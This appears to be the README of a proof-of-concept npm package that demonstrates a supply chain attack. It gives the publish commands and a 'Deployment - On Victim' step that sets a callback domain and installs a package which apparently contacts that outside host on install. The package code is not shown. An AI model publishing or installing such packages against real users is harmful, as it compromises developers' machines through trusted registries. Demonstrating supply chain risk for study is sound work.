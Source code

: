# simple-callback
simple-callback repository is a Proof-Of-Concept Node module to demonstrate Supply Chain attacks.

## Publish

```
npm login
# at the project directory
npm publish
```

## Deployment - On Victim

View the published package: https://www.npmjs.com/package/simple-callback-supply-chain-attack

To simplify testing, the callback domain is taken from the enviornment variable

```
export CALLBACK=[SOME-DOMAIN]
npm install simple-callback-supply-chain-attack
```